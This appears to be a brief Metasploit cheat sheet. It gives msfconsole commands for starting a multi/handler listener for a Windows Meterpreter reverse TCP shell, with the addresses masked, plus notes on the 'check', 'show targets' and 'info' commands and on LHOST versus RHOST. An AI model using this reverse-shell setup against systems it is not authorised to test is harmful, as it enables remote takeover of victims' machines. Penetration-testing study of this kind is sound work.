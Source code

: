 ### WAY N2[CORRECT WAY]
```bash
use multi/handler
```

```bash
set payload windows/meterpreter/reverse_tcp
```

```bash
set LHOST 192.XXX.X.XXX
```

```bash
set LPORT XXXX
```

```bash
exploit
```


### display which addresses are available
```bash
show targets
```

### See if the selected module is vulnerable to x target
```bash
check
```


### Look up a certain module/exploit
```bash
info
```

### RHOST VS LHOST
```
LHOST: Yours
RHOST: THEIRS
```


